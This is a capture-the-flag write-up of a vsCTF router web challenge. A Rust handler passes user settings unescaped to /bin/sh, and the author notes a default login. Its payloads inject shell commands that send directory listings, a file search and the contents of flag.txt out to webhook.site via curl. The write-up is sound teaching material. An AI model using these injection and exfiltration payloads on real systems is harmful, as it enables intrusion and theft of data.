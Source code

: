 ```yaml
---
created: 2024-06-15T04:41
updated: 2024-06-21T21:30
---
```


> We are developing a new router but not sure if the interface has bug or not. Could you have a look?

Simple source digging gives us the username and password.

```
Username: admin
Password: 123456 (md5=e10adc3949ba59abbe56e057f20f883e)
```

```rust
fn save_properties_to_file(){
    unsafe{
        let cmd = format!("echo \"{ESSID}\\n{BAND}\\n{CHANNEL}\\n{WIFI_PASSWORD}\" > /tmp/{ID}.conf");
        Command::new("/bin/sh")
                        .arg("-c")
                        .arg(cmd)
                        .output()
                        .expect("Failed to execute command");
    }
}
```

It is simple formatting. *face palms*

Changing passwords has no verification.

Payload will be `"; CMD; echo "`, probably not the shortest but it will do the trick.

I will also send all results via curl to webhook.site.

```
"; curl -X POST -d "$(ls -la)" https://webhook.site; echo "
```

`ls` didn't find anything, maybe its some flag.txt thing.

```
"; curl -X POST -d "$(find / -type f -name "*flag*")" https://webhook.site; echo "
```

And there it is.

```
/proc/sys/kernel/acpi_video_flags
/proc/sys/net/ipv4/fib_notify_on_flag_change
/proc/sys/net/ipv6/fib_notify_on_flag_change
/proc/kpageflags
/home/user/flag.txt
/usr/lib/x86_64-linux-gnu/perl/5.34.0/bits/waitflags.ph
/usr/lib/x86_64-linux-gnu/perl/5.34.0/bits/ss_flags.ph
/sys/devices/pnp0/00:05/tty/ttyS2/flags
/sys/devices/pnp0/00:03/tty/ttyS0/flags
/sys/devices/pnp0/00:06/tty/ttyS3/flags
/sys/devices/pnp0/00:04/tty/ttyS1/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/virtual/net/eth0/flags
/sys/module/scsi_mod/parameters/default_dev_flags
```

One last step from `/home/user/flag.txt`

```
"; curl -X POST -d "$(cat /home/user/flag.txt)" https://webhook.site; echo "
```

```
vsctf{1s_1t_tru3_wh3n_rust_h4s_c0mm4nd_1nj3ct10n!??}
```
